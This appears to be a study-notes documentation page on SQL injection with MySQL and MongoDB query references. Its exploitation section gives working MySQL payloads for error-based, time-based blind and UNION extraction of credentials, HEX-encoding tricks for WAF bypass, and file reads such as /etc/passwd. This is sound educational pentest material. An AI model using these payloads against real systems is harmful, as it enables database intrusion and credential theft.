

<Callout title="Overview" icon="shield-alert">
  **SQL injection (SQLi)** is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database.

  This can allow an attacker to view data that they are not normally able to retrieve. This might include data that belongs to other users, or any other data that the application can access. In many cases, an attacker can modify or delete this data, causing persistent changes to the application's content or behavior.

  In some situations, an attacker can escalate a SQL injection attack to compromise the underlying server or other back-end infrastructure. It can also enable them to perform denial-of-service attacks.
</Callout>

<Frame caption="SQL Injection Classification">
  
</Frame>

## SQL Injection Classification



---

## 1. What Is SQL Injection?

SQL injection (SQLi) is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database.

This can allow an attacker to view data that they are not normally able to retrieve. This might include data that belongs to other users, or any other data that the application can access.

In many cases, an attacker can modify or delete this data, causing persistent changes to the application's content or behavior.

In some situations, an attacker can escalate a SQL injection attack to compromise the underlying server or other back-end infrastructure. It can also enable them to perform denial-of-service attacks.

## 2. What Is the Impact of a Successful SQL Injection Attack?

A successful SQL injection attack can result in unauthorized access to sensitive data, such as:

- Passwords.
- Credit card details.
- Personal user information.

SQL injection attacks have been used in many high-profile data breaches over the years. These have caused reputational damage and regulatory fines.

In some cases, an attacker can obtain a persistent backdoor into an organization's systems, leading to a long-term compromise that can go unnoticed for an extended period.

<Callout title="Potential Impact" icon="shield-alert">
  The impact depends on the application's database privileges, query structure, database engine, and the security controls surrounding the application.
</Callout>

## 3. How to Detect SQL Injection Vulnerabilities

You can detect SQL injection manually using a systematic set of tests against every entry point in the application.

To do this, you would typically submit:

- The single quote character `'` and look for errors or other anomalies.
- Some SQL-specific syntax that evaluates to the base (original) value of the entry point, and to a different value, and look for systematic differences in the application responses.
- Boolean conditions such as `OR 1=1` and `OR 1=2`, and look for differences in the application's responses.
- Payloads designed to trigger time delays when executed within a SQL query, and look for differences in the time taken to respond.
- OAST payloads designed to trigger an out-of-band network interaction when executed within a SQL query, and monitor any resulting interactions.

Alternatively, you can find the majority of SQL injection vulnerabilities quickly and reliably using Burp Scanner.

<Callout title="Testing Note" icon="info">
  Perform these tests only against systems you own or have explicit authorization to assess. Response differences, database errors, timing changes, and out-of-band interactions should be evaluated together to reduce false positives.
</Callout>

## 4. SQL Injection in Different Parts of the Query

Most SQL injection vulnerabilities occur within the `WHERE` clause of a `SELECT` query. Most experienced testers are familiar with this type of SQL injection.

However, SQL injection vulnerabilities can occur at any location within the query, and within different query types.

Some other common locations where SQL injection arises are:

- In `UPDATE` statements, within the updated values or the `WHERE` clause.
- In `INSERT` statements, within the inserted values.
- In `SELECT` statements, within the table or column name.
- In `SELECT` statements, within the `ORDER BY` clause.

---

# SQL Database Reference

This section contains the SQL commands and query examples from the original notes, organized into expandable reference sections.

## 5. Show Information

<AccordionGroup>
  <Accordion title="Show Available Databases" icon="database">
    ```sql
    -- Show all available databases
    SHOW DATABASES;
    ```
  </Accordion>

  <Accordion title="Select a Database" icon="folder-open">
    ```sql
    -- Select a specific database
    USE nameofdatabase;
    USE mysql
    ```
  </Accordion>

  <Accordion title="Show Tables" icon="table">
    ```sql
    -- Show all tables inside the selected database
    SHOW TABLES;
    ```
  </Accordion>
</AccordionGroup>

## 6. Search Queries

<AccordionGroup>
  <Accordion title="Describe a Table">
    ```sql
    DESCRIBE tablename
    ```
  </Accordion>

  <Accordion title="Select a Column">
    ```sql
    SELECT <column>
    FROM <databasename.tablename>
    WHERE <condition>
    ```
  </Accordion>

  <Accordion title="UNION-Based Extraction">
    ```sql
    -- UNION-based extraction (for SQL injection scenarios)
    SELECT <column>
    FROM <databasename.tablename>
    WHERE <condition>
    UNION SELECT ...;
    ```
  </Accordion>

  <Accordion title="Basic SELECT Examples">
    ```sql
    SELECT * FROM <tablename>;
    SELECT * FROM <databasename.tablename>;
    ```

    ```sql
    SELECT User FROM Users WHERE Id=399586;
    ```
  </Accordion>
</AccordionGroup>

## 7. Create Table

<Accordion title="Create a New Table" icon="table">
  Use this to create a new table in the current database.

  ```sql
  CREATE TABLE nikola (
      id INT PRIMARY KEY AUTO_INCREMENT,
      username VARCHAR(20) UNIQUE NOT NULL,
      name VARCHAR(100) NOT NULL,
      age INT,
      email VARCHAR(100) UNIQUE NOT NULL,
      create_time TIMESTAMP DEFAULT CURRENT_TIMESTAMP
  );
  ```
</Accordion>

## 8. Modify Data

<AccordionGroup>
  <Accordion title="Insert Data" icon="Dog">
    Add a new record into the table:

    ```sql
    INSERT INTO tablename (id, name, age, email)
    VALUES ("1234", "cna", "44", "example@mail.com");
    ```
  </Accordion>

  <Accordion title="Update Data" icon="pencil">
    Modify an existing record in the table:

    ```sql
    UPDATE databasename.tablename
    SET email = "notable@mail.com"
    WHERE id = "1234";
    ```
  </Accordion>

  <Accordion title="Delete Data" icon="trash-2">
    Remove a record from the table:

    ```sql
    DELETE FROM databasename.tablename
    WHERE id = "1234";
    ```
  </Accordion>
</AccordionGroup>

<Callout title="Important" icon="alert-triangle">
  `UPDATE` and `DELETE` statements can modify or remove persistent data. Always verify the target database and the `WHERE` condition before running these commands.
</Callout>

## 9. Information Schema Queries

The following queries reference the `information_schema` metadata tables.

<AccordionGroup>
  <Accordion title="List Schemas">
    ```sql
    SELECT schema_name
    FROM information_schema.schemata;
    ```
  </Accordion>

  <Accordion title="List Tables">
    ```sql
    SELECT table_name
    FROM information_schema.tables;
    ```
  </Accordion>

  <Accordion title="List Columns">
    ```sql
    SELECT column_name
    FROM information_schema.columns;
    ```
  </Accordion>

  <Accordion title="Concatenate Schema Names">
    ```sql
    SELECT group_concat(schema_name)
    FROM information_schema.schemata;
    ```
  </Accordion>

  <Accordion title="Concatenate Table Names">
    ```sql
    SELECT group_concat(table_name)
    FROM information_schema.tables
    WHERE table_schema=database()*-- *
    ```
  </Accordion>

  <Accordion title="Concatenate Column Names">
    ```sql
    SELECT group_concat(column_name)
    FROM information_schema.columns
    WHERE table_schema=<DSName>
      AND table_name=<TableName>;
    ```
  </Accordion>
</AccordionGroup>

## 12. SQLi Exploitation Functions & Operators

This section covers the core SQL functions and operators used during SQL injection exploitation. These functions are essential for extracting data character-by-character (Blind SQLi), triggering errors (Error-Based SQLi), dumping multiple rows at once, and controlling query execution flow.

<AccordionGroup>
  <Accordion title="MySQL Utility Functions (VERSION, USER, DATABASE, @@vars)" icon="server">
    These built-in functions return metadata about the current MySQL session. They are the **first thing an attacker runs** during the reconnaissance phase of SQLi, because they identify the target environment (version, current user, current database, OS, hostname, install paths). All of them can also be embedded inside other extraction payloads (Error-Based, Time-Based, UNION).

    **Example 1: VERSION()** (Returns the MySQL server version)
    ```sql
    SELECT VERSION();
    ```
    ```text Output
    8.0.34-0ubuntu0.22.04.1
    ```

    **Example 2: USER() / CURRENT_USER()** (Returns the current user and host)
    ```sql
    SELECT USER();
    SELECT CURRENT_USER();
    ```
    ```text Output
    root@localhost
    ```

    **Example 3: DATABASE() / SCHEMA()** (Returns the currently selected database)
    ```sql
    SELECT DATABASE();
    SELECT SCHEMA();   -- alias for DATABASE()
    ```
    ```text Output
    webapp
    ```

    **Example 4: @@system variables** (Server-side configuration / host information)
    ```sql
    SELECT @@hostname;              -- Server hostname
    SELECT @@datadir;               -- Data directory path
    SELECT @@version_compile_os;    -- Operating system
    SELECT @@basedir;               -- MySQL install path
    SELECT @@port;                  -- MySQL listening port
    SELECT @@version_compile_machine; -- Architecture (x86_64, etc.)
    SELECT @@secure_file_priv;      -- File import/export restrictions
    SELECT @@have_ssl;              -- Whether SSL is enabled
    ```
    ```text Output (sample for @@hostname / @@datadir)
    db-server-01
    /var/lib/mysql/
    ```

    **Example 5: Combination payloads** (Embed utility functions inside extraction wrappers)
    ```sql
    -- Inside UPDATEXML error
    SELECT updatexml(1, concat(0x7e, user(), 0x7e), 1);

    -- Inside Time-Based IF
    SELECT IF(MID(user(),1,1)='r', SLEEP(3), 0);

    -- Inside UNION SELECT
    UNION SELECT 1, user(), database(), version(), 5;
    ```

    <Note title="Usage in SQLi">
      - `user()` / `current_user()` → identifies the privilege level of the database user (e.g. `root@localhost` ⇒ likely DBA, file-priv enabled, UDF injection possible).
      - `database()` → the current DB name; used as the `table_schema` filter in subsequent `information_schema` queries.
      - `version()` → decides which exploitation path is available (e.g. `information_schema` exists in 5.0+, `LOAD_FILE` requires `< 5.7` defaults or `secure_file_priv=''`).
      - `@@` variables → reveal OS, hostname, install path and `secure_file_priv` value, which directly inform further steps such as file reading (`LOAD_FILE('/etc/passwd')`) or writing a webshell via `INTO OUTFILE`.
      - These functions are **deterministic for the session** — calling `user()` 100 times in one connection always returns the same value.
    </Note>
  </Accordion>

  <Accordion title="Result Limiting & Sorting (LIMIT, GROUP BY, ORDER BY)" icon="list">
    These clauses are heavily used in SQLi to control the output of the query, determine the number of columns, or trigger specific database errors.
    
    **Example 1: ORDER BY** (Sorting results descending by ID)
    ```sql
    SELECT id, username FROM users ORDER BY id DESC;
    ```
    ```text Output
    id | username
    ---+----------
    3  | admin
    2  | alice
    1  | john
    ```

    **Example 2: GROUP BY** (Counting how many users have each role)
    ```sql
    SELECT role, COUNT(*) FROM users GROUP BY role;
    ```
    ```text Output
    role   | COUNT(*)
    -------+----------
    admin  | 1
    user   | 2
    ```

    **Example 3: LIMIT 0,1** (Extracting exactly the first row)
    ```sql
    SELECT id, username FROM users ORDER BY id ASC LIMIT 0, 1;
    ```
    ```text Output
    id | username
    ---+----------
    1  | john
    ```

    <Note title="Usage in SQLi">
      - **`ORDER BY`**: The attacker increments the column number (`ORDER BY 1`, `ORDER BY 2`) until the application returns an error, revealing the exact column count for UNION injection.
      - **`LIMIT 0, 1`**: Used in Blind SQLi to extract data row by row (row 0, then row 1, etc.) without flooding the application.
      - **`GROUP BY`**: When combined with `floor(rand()*2)`, it forces a duplicate key error that leaks data in the error message (Double Query technique).
    </Note>
  </Accordion>

  <Accordion title="Data Concatenation (GROUP_CONCAT)" icon="combine">
    `GROUP_CONCAT` combines multiple rows of data into a single string. This is crucial for Union-Based SQLi because it allows an attacker to dump all credentials in a single HTTP request.
    
    **Example:** (Dumping all usernames and passwords separated by a colon)
    ```sql
    SELECT GROUP_CONCAT(username, ":", password) FROM users;
    ```
    ```text Output
    GROUP_CONCAT(username, ":", password)
    -------------------------------------------------------------------
    john:pass123,alice:secret,admin:adminpass
    ```

    <Note title="Usage in SQLi">
      The separator `":"` formats the output cleanly. Without `GROUP_CONCAT`, an attacker would have to extract data row by row using `LIMIT`.
    </Note>
  </Accordion>

  <Accordion title="String Manipulation (SUBSTR / MID)" icon="scissors">
    These functions extract a substring from a given string. They are the absolute backbone of Blind SQLi, allowing attackers to extract data character by character.

    **Example 1: SUBSTR (Basic Extraction)** (Start at position 1, extract 3 characters)
    ```sql
    SELECT SUBSTR("attvdef", 1, 3);
    ```
    ```text Output
    att
    ```

    **Example 2: SUBSTR (Negative Indexing)** (Start 3 characters from the end, extract 3)
    ```sql
    SELECT SUBSTR("attvdef", -3, 3);
    ```
    ```text Output
    def
    ```

    **Example 3: MID** (The modern equivalent of SUBSTR, extract 5 characters)
    ```sql
    SELECT MID("attvdef", 1, 5);
    ```
    ```text Output
    attvd
    ```

    <Note title="Usage in SQLi">
      - **Negative Indexing (`-3, 3`)**: Allows extracting from the end of the string. This is extremely useful when the length of the string is unknown (e.g., extracting the last 3 characters of a password hash).
      - Attackers use these functions to ask true/false questions like "Is the first character of the password 'a'?" to extract data blindly.
    </Note>
  </Accordion>

  <Accordion title="Math & Random Functions (FLOOR, RAND)" icon="calculator">
    These functions are primarily used in Error-Based SQLi to intentionally trigger database errors that contain the extracted data.

    **Example 1: FLOOR** (Returns the largest integer less than or equal to the number)
    ```sql
    SELECT FLOOR(0.8);
    ```
    ```text Output
    0
    ```

    **Example 2: FLOOR** (Rounding down a decimal)
    ```sql
    SELECT FLOOR(1.5);
    ```
    ```text Output
    1
    ```

    **Example 3: FLOOR + RAND** (Generates a random integer of either 0 or 1)
    ```sql
    SELECT FLOOR(RAND()*2);
    ```
    ```text Output
    0 (or 1, randomly)
    ```

    <Note title="Usage in SQLi">
      When used in a subquery with `GROUP BY`, the database attempts to group by a temporary key generated by `floor(rand()*2)`. Due to a race condition, it occasionally tries to insert a duplicate key, throwing an error like `Duplicate entry '1' for key 'group_key'`. Attackers replace the `1` with the data they want to extract.
    </Note>
  </Accordion>

  <Accordion title="Error-Based SQLi (UPDATEXML, EXTRACTVALUE)" icon="bug">
    `UPDATEXML` and `EXTRACTVALUE` are the **modern workhorses of Error-Based SQLi in MySQL 5.1+**. They are designed to manipulate XML documents, but when the XPath expression is malformed they throw an `XPATH syntax error` whose message **contains the result of any SQL query embedded inside the XPath argument**. This lets the attacker read arbitrary data out of the database through the error string, with no visible result column needed.

    **UPDATEXML Syntax** (3 arguments)
    ```sql
    UPDATEXML(xml_target, xpath_expr, new_xml)
    -- xml_target  : the XML document to modify   (irrelevant for SQLi → use 1)
    -- xpath_expr  : the XPath location to replace  ← here you inject the payload
    -- new_xml     : the replacement XML            (irrelevant → use 1)
    ```

    **Example 1: UPDATEXML — extract current user**
    ```sql
    SELECT updatexml(1, concat(0x7e, (SELECT user()), 0x7e), 1);
    ```
    ```text Output
    XPATH syntax error: '~root@localhost~'
    ```

    **Example 2: UPDATEXML — dump all usernames in one shot**
    ```sql
    SELECT updatexml(
      1,
      concat(0x7e,
        (SELECT GROUP_CONCAT(username, 0x3a, password) FROM users),
        0x7e
      ),
      1
    );
    ```
    ```text Output
    XPATH syntax error: '~john:pass123,alice:secret,admin:adm...'
    ```

    **EXTRACTVALUE Syntax** (2 arguments — note: only 2, not 3)
    ```sql
    EXTRACTVALUE(xml_frag, xpath_expr)
    -- xml_frag   : the XML fragment to search   (irrelevant → use 1)
    -- xpath_expr : the XPath expression          ← here you inject the payload
    ```

    **Example 3: EXTRACTVALUE — extract current database**
    ```sql
    SELECT extractvalue(1, concat(0x7e, (SELECT database()), 0x7e));
    ```
    ```text Output
    XPATH syntax error: '~webapp~'
    ```

    **Example 4: EXTRACTVALUE — extract database version**
    ```sql
    SELECT extractvalue(1, concat(0x7e, version(), 0x7e));
    ```
    ```text Output
    XPATH syntax error: '~8.0.34-0ubuntu0.22.04.1~'
    ```

    **Example 5: Bypassing the 32-character limit with SUBSTR**
    Both functions truncate the leaked string at **32 characters**. For longer data, split via `SUBSTR` and dump in chunks:
    ```sql
    -- Chunk 1: chars 1..32
    SELECT updatexml(1, concat(0x7e, SUBSTR((SELECT password FROM users LIMIT 1), 1, 32), 0x7e), 1);
    -- Chunk 2: chars 33..64
    SELECT updatexml(1, concat(0x7e, SUBSTR((SELECT password FROM users LIMIT 1), 33, 32), 0x7e), 1);
    ```

    <Note title="Usage in SQLi">
      - The `0x7e` (`~`) delimiters wrap the payload so the extracted data is cleanly readable inside the error string. Any non-XPath char (`~`, `!`, `@`) works the same way.
      - The first argument is irrelevant for exploitation — passing `1` is standard because MySQL only needs *some* valid argument to attempt XPath evaluation.
      - **Column count is irrelevant.** Unlike UNION injection, `UPDATEXML`/`EXTRACTVALUE` work even when you cannot balance the column count, making them the go-to technique when `ORDER BY` enumeration fails.
      - **Limitations:** output is capped at 32 chars per error (use `SUBSTR` to chunk), and the error must be reflected in the HTTP response (no good against apps that suppress DB errors — switch to Time-Based Blind in that case).
      - These functions supersede the older `floor(rand()*2)` Double Query technique in modern MySQL; both produce errors, but `UPDATEXML`/`EXTRACTVALUE` are far more reliable and don't depend on a race condition.
    </Note>
  </Accordion>

  <Accordion title="Conditional Logic & Time Delays (IF, SLEEP)" icon="clock">
    These functions are the foundation of Time-Based Blind SQLi. The attacker infers the answer based on how long the server takes to respond.

    **Example 1: SLEEP** (Pauses execution for 3 seconds, then returns 0)
    ```sql
    SELECT SLEEP(3);
    ```
    ```text Output
    0 (Returned after a 3-second delay)
    ```

    **Example 2: IF + SLEEP** (If the last 3 chars are "def", sleep for 3 seconds)
    ```sql
    SELECT IF((MID("attvdef", -3, 3) = "def"), (SLEEP(3)), (0));
    ```
    ```text Output
    0 (Returned after a 3-second delay, because the condition is TRUE)
    ```

    **Example 3: Extracting DB Version** (If the DB version starts with '5', sleep for 1 second)
    ```sql
    SELECT IF((MID(VERSION(), 1, 1) = 5), (SLEEP(1)), (0));
    ```
    ```text Output
    0 (Returned after a 1-second delay if version starts with 5, otherwise instant)
    ```

    <Note title="Usage in SQLi">
      By iterating through characters using `MID` combined with `SLEEP`, the entire database version string (or any other data) can be extracted blindly based on response times.
    </Note>
  </Accordion>

  <Accordion title="Pattern Matching (LIKE)" icon="search">
    The `LIKE` operator searches for a specified pattern in a column. The `%` wildcard represents zero, one, or multiple characters.

    **Example:** (Find all emails starting with "admin")
    ```sql
    SELECT email FROM users WHERE email LIKE "admin%";
    ```
    ```text Output
    email
    --------------------
    admin@test.com
    administrator@target.com
    ```

    <Note title="Usage in SQLi">
      This is highly useful in Boolean-Based Blind SQLi to check if a username or email follows a specific naming convention without knowing the exact string.
    </Note>
  </Accordion>

  <Accordion title="Encoding & Compression (HEX, UNHEX, COMPRESS, UNCOMPRESS)" icon="binary">
    These functions are used for **WAF bypass**, **safe transport of binary/special-character data**, and **defeating character-set filtering**. They are typically applied as wrappers around extracted data so the payload passes through HTTP layers and application filters without being mangled or detected.

    **Example 1: HEX / UNHEX** (Encode and decode strings as hexadecimal)
    ```sql
    SELECT HEX("admin");
    SELECT UNHEX("61646D696E");
    ```
    ```text Output
    61646D696E
    admin
    ```

    **Example 2: Nested HEX/UNHEX** (Round-trip encoding — the classic WAF-bypass form)
    ```sql
    SELECT UNHEX(HEX("admin"));
    -- Equivalent to "admin" but the literal string never appears in plaintext
    -- in the query, so keyword-based WAFs miss it.
    ```
    ```text Output
    admin
    ```

    **Example 3: COMPRESS / UNCOMPRESS** (Compress and decompress binary data)
    ```sql
    SELECT COMPRESS("admin");
    SELECT UNCOMPRESS(COMPRESS("admin"));
    ```
    ```text Output
    (binary BLOB)
    admin
    ```

    **Example 4: Encoding system-info calls**
    ```sql
    -- Round-trip the current user through HEX so 'root@localhost' never
    -- appears in plaintext in the SQL statement
    SELECT UNHEX(HEX(user()));

    -- Encode version() output
    SELECT HEX(version());
    SELECT UNHEX(HEX(version()));

    -- Encode database()
    SELECT HEX(database());
    ```

    **Example 5: Hex-encoded payloads inside Error-Based extraction**
    ```sql
    -- Wrap user() in HEX so the literal 'user()' result is not detected
    SELECT updatexml(1, concat(0x7e, UNHEX(HEX((SELECT user()))), 0x7e), 1);
    ```

    <Note title="What can be wrapped in HEX() / encoded?">
      Practically **any string-returning sub-expression** can be wrapped in `HEX()` (or `HEX(UNHEX(...))` round-trip) for safe transport. The following are the most common targets during SQLi:

      **System-info functions**
      - `HEX(user())`
      - `HEX(current_user())`
      - `HEX(database())`
      - `HEX(version())`
      - `HEX(@@hostname)`, `HEX(@@datadir)`, `HEX(@@version_compile_os)`

      **Information_schema metadata**
      - `HEX((SELECT schema_name FROM information_schema.schemata LIMIT 1))`
      - `HEX((SELECT table_name FROM information_schema.tables LIMIT 1))`
      - `HEX((SELECT column_name FROM information_schema.columns LIMIT 1))`
      - `HEX((SELECT GROUP_CONCAT(schema_name) FROM information_schema.schemata))`
      - `HEX((SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema=database()))`

      **User data / credentials**
      - `HEX((SELECT username FROM users LIMIT 1))`
      - `HEX((SELECT password FROM users WHERE username='admin'))`
      - `HEX((SELECT GROUP_CONCAT(username, 0x3a, password) FROM users))`

      **File content (when `LOAD_FILE` is available)**
      - `HEX(LOAD_FILE('/etc/passwd'))`
      - `HEX(LOAD_FILE('/var/www/html/config.php'))`
      - `HEX(LOAD_FILE('C:/Windows/win.ini'))`

      **Long strings / hashes** (split into chunks if longer than the error-message cap)
      - `HEX(SUBSTR((SELECT password FROM users LIMIT 1), 1, 32))`
      - `HEX(SUBSTR((SELECT password FROM users LIMIT 1), 33, 32))`

      **Why HEX specifically?**
      - MySQL has **no native base64** before 8.0 (`TO_BASE64`/`FROM_BASE64` were added in 5.6 / 8.0); HEX works on every supported version.
      - HEX output is purely `[0-9A-F]`, so it never triggers quoting, escaping, or character-set issues through any HTTP transport.
      - HEX-encoded strings can be passed as `0x...` literals — e.g. `0x61646D696E` is treated as the string `'admin'` — which is the standard way to smuggle a string past a WAF that blocks quote characters (`'`, `"`).
      - `COMPRESS`/`UNCOMPRESS` are useful when the extracted data is genuinely large (e.g. dumping a binary file) and you want to shrink it before reading it back, but they produce binary output that must itself be HEX-encoded to survive HTTP transit — i.e. the real pattern is `HEX(UNCOMPRESS(...))` or `HEX(COMPRESS(...))`.

      **WAF-bypass rule of thumb:** wrap the *result* (the sub-query) in `HEX()`, not the *function name*. Wrapping `HEX(user())` works because the function is still executed; writing `HEX(user)` literally would just hex the word `user` and lose the call.
    </Note>
  </Accordion>
</AccordionGroup>

# NoSQL Database Reference

## 10. Show Information

<AccordionGroup>
  <Accordion title="Start the MongoDB Shell" icon="terminal">
    ```text
    mongo
    ```
  </Accordion>

  <Accordion title="Show Databases" icon="database">
    ```javascript
    // show databases
    show dbs
    ```
  </Accordion>

  <Accordion title="Select a Database" icon="folder-open">
    ```javascript
    // use databasesname
    use databasename
    ```
  </Accordion>

  <Accordion title="Show Collections" icon="table">
    ```javascript
    // show table
    show collections
    ```
  </Accordion>

  <Accordion title="Show Collection Documents" icon="file-text">
    ```javascript
    // show information about table
    db.CollectionName.find()
    ```
  </Accordion>
</AccordionGroup>

## 11. Search Queries

<AccordionGroup>
  <Accordion title="Find a User">
    ```javascript
    db.CollectionName.find({"User":"admin"})
    ```
  </Accordion>

  <Accordion title="Count Documents">
    ```javascript
    db.CollectionName.count()
    ```
  </Accordion>

  <Accordion title="Count Documents Using a Greater-Than Condition">
    ```javascript
    // {"id":3456,...}
    db.CollectionName.find({"id":{$gt:123}}).count()
    ```
  </Accordion>

  <Accordion title="Combine Conditions With $and">
    ```javascript
    // {"id":3456,"state":"ML"}
    db.CollectionName.find({
      $and: [
        {"id":{$gt:200}},
        {"state":"FL"}
      ]
    })
    ```
  </Accordion>

  <Accordion title="Regular Expression Search">
    ```javascript
    db.CollectionName.find({"state":{$regex:"^M.*"}})
    ```
  </Accordion>
</AccordionGroup>

<Callout title="MongoDB Compatibility" icon="info">
  The `mongo` shell and `db.CollectionName.count()` are associated with older MongoDB workflows. Modern MongoDB environments commonly use `mongosh` and alternatives such as `countDocuments()`. Availability and syntax depend on the MongoDB version.
</Callout>

---

## Quick Reference

<CardGroup cols={2}>
  <Card title="SQL Injection Fundamentals" icon="shield-alert">
    Understand SQLi classifications, impact, detection methods, and vulnerable query locations.
  </Card>
  <Card title="SQL Commands" icon="database">
    Review database selection, table discovery, `SELECT`, `INSERT`, `UPDATE`, and `DELETE` statements.
  </Card>
  <Card title="Information Schema" icon="list-tree">
    Explore schema, table, and column metadata queries.
  </Card>
  <Card title="SQLi Exploitation Functions" icon="bug">
    Recon (`version`/`user`/`database`), Error-Based (`updatexml`/`extractvalue`), Time-Based (`IF`+`SLEEP`), Blind (`SUBSTR`/`MID`), and WAF-bypass encoding (`HEX`/`UNHEX`, `COMPRESS`/`UNCOMPRESS`).
  </Card>
  <Card title="NoSQL Queries" icon="terminal">
    Review MongoDB shell commands, document searches, counting, conditional operators, and regular expressions.
  </Card>
</CardGroup>
